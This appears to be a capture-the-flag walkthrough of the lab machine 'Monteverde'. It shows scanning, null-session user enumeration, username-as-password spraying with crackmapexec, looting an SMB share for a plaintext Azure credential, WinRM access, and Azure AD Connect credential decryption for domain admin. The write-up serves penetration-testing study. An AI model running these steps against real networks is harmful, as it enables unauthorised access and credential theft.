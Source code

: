 # Monteverde

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.228.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:03 EDT
Nmap scan report for 10.129.228.111
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
```

### Username List --> User Creds

With `enum4linux` and null credentials, we can enumerate the possible users and the domain name:

```
$ enum4linux -u '' -p '' -a 10.129.228.111
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan                                 
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest

guest
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
AAD_987d7f2f57d2
Administrator
krbtgt
```

We can get a list of usernames here. I tried ASREP-Roasting, but nothing came of it. We can also check if any user has their password as their username with `cracpmapexec`, which returns something interesting:

```
$ crackmapexec smb 10.129.228.111 -u users -p users 2> /dev/null
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
<TRUNCATED>
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Seems that we have access to one user. When we enumerate the shares, we can see that we have access to the `users` and `azure_uploads` files. The latter has nothing in it, but the `users` file has loads of files:

```
$ smbclient -U "SABatchJobs" //10.129.228.111/users$
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
```

We can see that there's an `azure.xml` file here. It contains a user credential:

```markup
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I also noticed that this uses Azure to do stuff, so let's keep that in mind for now. Anyways, we can login via `evil-winrm` with `mhope` and this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Azure Admins + Azure Connect

When we view our groups within the domain, we see that `mhope` is part of the Azure Admins group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   5/5/2023 12:16:08 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

Within the `C:\Program Files` directory, there are also some files pertaining to Azure:

```
*Evil-WinRM* PS C:\Program Files> dir
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

I googled on how to exploit these services. After some trial and error, I stumbled on this:

{% embed url="https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/" %}

Since Azure AD Connect was present, it means that there's a database of which the credentials are being stored. As Azure Admins, we probably have access to these passwords, which can be enumerated and decrypted.

{% embed url="https://github.com/VbScrub/AdSyncDecrypt/releases" %}

We just need to transfer the `AdDecrypt.exe` file along with `mcrypt.dll` to the machine. Then, following the PoC, we need to run this within `C:\Program Files\Microsoft Azure AD Sync\Bin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Then, using this password, we can login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Rooted!
